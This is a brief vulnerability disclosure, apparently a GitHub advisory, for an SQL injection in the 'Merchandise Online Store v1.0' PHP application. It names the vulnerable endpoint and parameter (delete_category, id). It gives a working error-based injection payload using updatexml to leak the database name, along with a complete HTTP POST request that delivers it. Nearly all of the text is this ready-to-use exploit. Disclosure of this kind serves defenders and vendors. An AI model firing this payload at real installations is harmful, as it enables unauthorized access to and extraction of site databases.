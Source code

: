 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_category

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_category, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /vloggers_merch/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=maintenance/category
Content-Length: 65
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/166875796-06c46d5a-b3df-464d-bdd1-2db13b71b0d2.png)
